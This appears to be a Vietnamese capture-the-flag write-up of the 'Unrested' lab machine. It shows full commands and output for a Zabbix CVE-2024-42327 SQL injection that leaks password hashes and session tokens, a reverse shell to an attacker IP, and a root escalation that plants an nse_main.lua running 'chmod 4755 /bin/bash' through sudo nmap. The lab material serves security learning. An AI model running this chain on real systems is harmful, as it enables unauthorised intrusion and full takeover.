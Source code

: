 # Unrested

<img width="1414" height="589" alt="image" src="https://github.com/user-attachments/assets/c142aea6-5570-4d0f-a49a-15215149fa91" />

Tôi dùng nmap để quét các port thì có 4 port:

```
❯ sudo nmap -p- 10.10.11.50
[sudo] password for namdeptrai: 
Starting Nmap 7.97 ( https://nmap.org ) at 2025-09-19 12:10 +0700
Nmap scan report for 10.10.11.50 (10.10.11.50)
Host is up (0.037s latency).
Not shown: 65531 closed tcp ports (reset)
PORT      STATE SERVICE
22/tcp    open  ssh
80/tcp    open  http
10050/tcp open  zabbix-agent
10051/tcp open  zabbix-trapper

Nmap done: 1 IP address (1 host up) scanned in 20.46 seconds
```

Sau khi đăng nhập bằng cred đề bài cho thì có giao diện như này `matthew / 96qzn0h2e1k3`

<img width="1861" height="945" alt="image" src="https://github.com/user-attachments/assets/7135650a-f6c1-49cd-a710-229a24e8190e" />

Tôi check version thì đây là version 7.0.0 ở cuối trang, search google thì tìm được [CVE-2024-42327](https://www.exploit-db.com/exploits/52230):

<img width="260" height="48" alt="image" src="https://github.com/user-attachments/assets/3b76f0df-d0bc-4d1a-b4b4-7a7a020f1c85" />

Chạy thử đoạn code ở [CVE-2024-42327](https://www.exploit-db.com/exploits/52230) với api `/zabbix/api_jsonrpc.php` thì trả về `[!] VULNERABLE.` chứng tỏ có thể khai thác lỗi ở đây

Tôi search thêm được đoạn exploit nữa là [đây](https://github.com/874anthony/CVE-2024-42327_Zabbix_SQLi/blob/main/sqliZabbix.py), chạy đoạn exploit đó thì ra được như này:

```
/home/namdeptrai/PyCharmMiscProject/.venv/bin/python /home/namdeptrai/PyCharmMiscProject/CVE_2024-42327_exploit.py -u http://10.10.11.50/zabbix/ -U matthew -p 96qzn0h2e1k3 --mode leak-users 
[+] Authenticated successfully. Grabbing the auth token
[+] Found users in the database, leaking them now...
userid: 1, username: Admin, hash: $2y$10$L8UqvYPqu6d7c8NeChnxWe1.w6ycyBERr8UgeUYh.3AO7ps3zer2a, roleid: 3
userid: 2, username: guest, hash: $2y$10$89otZrRNmde97rIyzclecuk6LwKAsHN0BcvoOKGjbT.BwMBfm7G06, roleid: 4
userid: 3, username: matthew, hash: $2y$10$e2IsM6YkVvyLX43W5CVhxeA46ChWOUNRzSdIyVzKhRTK00eGq4SwS, roleid: 1
[+] Finished
```

Tôi dùng hashcat với wordlist rockyou.txt thì ra được mật khẩu của `guest` là rỗng, còn lại thì không có ra.

Tiếp tục thì xem token, có token của `userid: 1`:

```
[+] Authenticated successfully. Grabbing the auth token
[+] Found session tokens in the database, leaking them now...
userid: 1, token: 8fd1f3c568448be5e08687cedc2b6ede
userid: 3, token: c503a651e3040d36807643b8984a8518
userid: 3, token: 0ac674dfdd6ee1d1b560bc9cea4a0d7e
userid: 3, token: 8fe49c73e5d1e7dd4105c06c5f44d480
[+] Finished
```

Có token rồi tôi tiếp tục chạy với mode rce:

```
/home/namdeptrai/PyCharmMiscProject/.venv/bin/python /home/namdeptrai/PyCharmMiscProject/CVE_2024-42327_exploit.py -u http://10.10.11.50/zabbix/ -U matthew -p 96qzn0h2e1k3 --mode rce --ip 10.10.14.8 --port 1234 --admin_token 8fd1f3c568448be5e08687cedc2b6ede 
[+] Authenticated successfully. Grabbing the auth token
[+] Open a new terminal and start listening to the port specified
[+] Encountered host_id 10084 and interface_id 1
[+] Finished
```

Đoạn exploit đã trả về reverse shell với user là `zabbix` và có thể đọc được nội dung trong thư mục của user `matthew`:

```
bash-5.1$ whoami
whoami
zabbix
bash-5.1$ cat /home/matthew/user.txt
cat /home/matthew/user.txt
7452cf963a63a840691ea65472474824
bash-5.1$ 
```

Kiểm tra thì thấy được chạy nmap dưới quyền root:

```
bash-5.1$ sudo -l
sudo -l
Matching Defaults entries for zabbix on unrested:
    env_reset, mail_badpass,
    secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin,
    use_pty

User zabbix may run the following commands on unrested:
    (ALL : ALL) NOPASSWD: /usr/bin/nmap *
```

Tôi thử chạy nmap kèm script nhưng không được:

```
bash-5.1$ sudo /usr/bin/nmap --script test.nse example.com
sudo /usr/bin/nmap --script test.nse example.com
Script mode is disabled for security reasons.
```

Để ý trong nmap thì có cờ `--datadir`, tùy chọn này yêu cầu Nmap tìm và tải các file dữ liệu của nó (bao gồm cả các script của Nmap Scripting Engine - NSE) từ thư mục được ghi trong câu lệnh thay vì thư mục mặc định, 
kết hợp với cờ `-sC` tự động chạy các script mặc định, tức là khi khởi động, Nmap sẽ tìm và chạy file `nse_main.lua` trong thư mục dữ liệu của nó

```
bash-5.1$ echo 'os.execute("chmod 4755 /bin/bash")' > nse_main.lua         
echo 'os.execute("chmod 4755 /bin/bash")' > nse_main.lua
bash-5.1$ ls
ls
nse_main.lua
bash-5.1$ sudo /usr/bin/nmap --datadir=/var/lib/zabbix/test -sC localhost
sudo /usr/bin/nmap --datadir=/var/lib/zabbix/test -sC localhost
Starting Nmap 7.80 ( https://nmap.org ) at 2025-09-19 05:30 UTC
nmap.original: nse_main.cc:619: int run_main(lua_State*): Assertion `lua_isfunction(L, -1)' failed.
bash: [46340: 2 (255)] tcsetattr: Inappropriate ioctl for device
bash-5.1$ /bin/bash -p
/bin/bash -p
whoami
root
cat /root/root.txt
6a6f6c20c86b4a84c6253db49d83f5da
pwd
/var/lib/zabbix/test
```

Ở đây thì tôi tạo `nse_main.lua` và thêm `os.execute("chmod 4755 /bin/bash")` vào trong file đó nhằm thay đổi quyền trong file `/bin/bash`, chạy nmap với các cờ như đã giải thích ở trên và đã leo được lên root.
